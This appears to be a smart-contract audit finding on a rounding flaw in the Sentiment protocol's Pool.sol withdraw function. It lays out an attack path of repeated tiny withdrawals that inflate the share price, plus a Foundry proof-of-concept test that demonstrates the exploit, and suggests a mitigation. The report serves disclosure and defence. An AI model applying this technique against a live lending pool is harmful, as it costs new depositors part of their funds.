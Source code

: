 Bouncy Banana Aardvark

High

# An Attacker Can Exploit the Withdraw Function to Inflate Share Prices

### Summary

The flaw in the `withdraw` function will cause a significant financial disadvantage for new depositors as an attacker will exploit the rounding error in share calculations to inflate the share price. The flawed calculation will cause an increase in the share price, which means new depositors will receive fewer shares for their deposits.

### Root Cause

In `Pool.sol:350`, the `withdraw` function rounds up when calculating the number of shares to withdraw, which causes an increase in the share price.
https://github.com/sentimentxyz/protocol-v2/blob/04bf15565165396608cc0aedacf05897235518fd/src/Pool.sol#L350

### Internal pre-conditions

1. `totalDepositAssets` of the pool needs to be small enough to make rounding errors significant.

### External pre-conditions

No external pre-conditions are required.

### Attack Path

1. An attacker deposits assets into the pool initially.
2. The attacker makes a series of multiple small withdrawals from the pool.
3. Each withdrawal triggers the rounding-up mechanism, slightly reducing `totalDepositShares` without a proportional reduction in `totalDepositAssets`.
4. Over several iterations, the share price becomes significantly inflated due to the reduced `totalDepositShares` and relatively smaller reduction in `totalDepositAssets`.
5. After the attack, the inflated share price means new depositors receive far fewer shares for their deposits than pre-attack conditions.

### Impact

- The share price of the pool becomes significantly inflated.
- New depositors receive significantly fewer shares for their assets than pre-attack conditions.
- The protocol’s integrity is compromised, leading to a loss of trust and fairness.

### PoC

```solidity
    function test() public {
        uint256 assets;
        uint256 shares;
        address attacker = makeAddr("attacker");

        // the attacker deposits 10000 assets to linearRatePool
        vm.startPrank(attacker);
        asset1.mint(attacker, 10000);
        asset1.approve(address(pool), 10000);

        pool.deposit(linearRatePool, 10000, attacker);
        vm.stopPrank();

        // totalDepositAssets is 10000 and totalDepositShares is 10000. the share price is 1.
        (,,,,,,,,, assets, shares) = pool.poolDataFor(linearRatePool);
        assertEq(assets, 10000);
        assertEq(shares, 10000);

        // the user borrows 1000 assets from pool and repays after 5 years.
        vm.prank(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY));
        pool.borrow(linearRatePool, user, 1000);

        uint256 time = block.timestamp + 1 days;
        vm.warp(time + 86_400 * 365 * 5);
        vm.roll(block.number + ((86_400 * 365 * 5) / 2));

        vm.startPrank(user);
        asset1.mint(user, 6500);
        asset1.approve(address(pool), 6500);

        IERC20(address(asset1)).safeTransfer(address(pool), 6500);
        vm.stopPrank();

        vm.prank(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY));
        pool.repay(linearRatePool, user, 6500);

        // totalDepositAssets is 15500 and totalDepositShares is 10000. the share price is 1.55.
        (,,,,,,,,, assets, shares) = pool.poolDataFor(linearRatePool);
        assertEq(assets, 15500);
        assertEq(shares, 10000);

        // the attacker withdraw 9999 times per 1 asset
        vm.startPrank(attacker);
        for(uint i = 0; i < 9999; i++) {
            pool.withdraw(linearRatePool, 1, attacker, attacker);
        }
        vm.stopPrank();

        // totalDepositAssets is 5501 and totalDepositShares is 1. the share price is 5501.
        (,,,,,,,,, assets, shares) = pool.poolDataFor(linearRatePool);
        assertEq(assets, 5501);
        assertEq(shares, 1);
    }
```

### Mitigation

To mitigate this issue, consider implementing more precise rounding mechanisms or limiting the number of withdrawals. This could help reduce the impact of the rounding error and prevent attackers from inflating the share price.